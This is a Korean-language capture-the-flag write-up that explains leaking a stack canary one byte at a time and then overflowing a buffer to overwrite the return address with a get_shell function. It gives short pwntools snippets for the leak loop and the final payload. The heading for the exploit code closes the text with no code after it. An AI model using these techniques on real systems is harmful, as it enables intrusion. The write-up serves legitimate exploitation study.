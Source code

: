 <br>

### 참고

우리가 키보드를 통해 값을 입력할 때는 결국 string값을 전달하는 것이기 때문에 `scanf`에서 `%d`로 받아도 해당 string 값을 ASCII 변환하는 것이 아닌 정수로 판단하여 저장한다. 

따라서, idx에 정수를 입력할 때 `b'정수'` 형태로 바로 입력하면 된다.

canary를 더할 때, `p32`로 해주면 `0x01`을 받았을 때 `b'\x01\x00\x00\x00'`으로 저장되므로, `[:1]`로 맨앞의 1자리만 받아와서 저장해야 한다. (byte stirng 배열은 \x00을 하나의 string으로 해석하기 때문)

그게 싫으면 `p8()`로 받으면 1바이트(8bit)만 받기 때문에 [:1]를 쓸 필요가 없다. (다른 사람 풀이 보면서 알게 됨)

아래와 같이 반복문을 통해서도 가능히다. 
 
```
canary = b'\x00'
for i in range(129, 132):
    p.sendline(b'P')
    p.sendline(str(i).encode())
    p.recvuntil(b'is : ')
    canary += p8(int(p.recv(2),16))
```

참고로, `str(i).encode()`를 하면 정수 129가 `b'129'(바이너리 문자열)`로 변환되는데 `str(i)`는 `129(유니코드 문자열)`로 변환된다.

여기서는 `b'129'`대신 `129`를 전송해도 string을 단독으로 전달하기 때문에 정상으로 같은 동작을 하지만, 대부분 바이너리 문자열로 전달을 기대하기 때문에 바이너리 문자로 encoding 후 전달하는 것이 좋다.

그리고 `byte string`과 `string`은 `+`로 concat 불가능하다.

---

2.

이제 canary값을 읽어왔기 때문에 `E\n`을 통해 `name` 변수에 접근하여 return_address를 `get_shell` 함수의 주소로 덮으면 된다. 

**여기서 취약점이 발생하는 이유가, `name_len`이 `name`의 크기보다 더 클 수 있기 때문에 name의 범위를 넘어서까지 입력이 가능하기 때문이다.**     

`name`에서 `return_address`를 덮어쓰려면 `64+canary(4)+4+ebp(4)+return_address(4)`가 필요하므로 `name_len`은 80이 들어가면 된다.   

코드는 아래와 같고, `return_address`에 넣을 `get_shell()`함수의 주소는 `ELF`를 통해 얻어왔다.

```py
p.sendline(b'E')
p.sendline(b'80')

payload = b'a'*64 + canary + b'a'*8 + p32(get_shell)
p.send(payload)

p.interactive()
```

<br>

## Exploit 코드
